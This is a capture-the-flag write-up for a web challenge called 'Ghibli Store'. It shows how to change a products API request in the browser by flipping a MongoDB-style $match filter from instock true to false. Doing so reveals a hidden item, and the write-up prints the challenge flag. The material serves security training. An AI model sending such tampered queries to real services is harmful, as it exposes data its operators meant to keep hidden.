



# Ghibli Store :: 001 100pts

BRIEFING
We're working on a new Ghibli store to sell the cutest plush toys you'll find on the internet! We don't have all the products in stock yet, can you find the hidden item?

Challenge Host: http://ghibli.pwn.site:8035/

## Solution 

Retrieve the following page


Utilizing browser development tools, identify a POST request for the products with a filter matching 'true' on 'instock'



Copy the request as a fetch and modify the filter to be 'false'

```JavaScript
fetch("http://ghibli.pwn.site:8035/api/products", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://ghibli.pwn.site:8035/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"query\":{\"$match\":{\"instock\":false}}}",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```


flag of `flag{s1mpl3_m47ch_w45_4ll_1t_n33d3d}`


